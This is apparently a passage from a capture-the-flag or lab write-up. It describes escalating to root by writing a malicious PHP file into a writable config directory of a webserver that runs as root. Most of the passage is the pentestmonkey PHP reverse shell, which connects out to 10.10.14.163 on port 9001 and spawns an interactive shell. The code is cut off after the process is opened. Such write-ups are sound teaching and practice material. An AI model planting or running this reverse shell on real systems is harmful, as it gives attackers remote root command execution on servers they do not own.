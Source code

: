 ![[Pasted image 20241201183930.png]]
Nothing too interesting here, however we know that the entire webserver process is ran by root by looking at what **pspy** found, and we have write permissions over the config directory. This means we can add a malicious php file and execute it by navigating to it in our browser. 

We create a file in the **config** directory named **exploit.php** with the following reverse shell script:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.163';
$port = 9001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);
```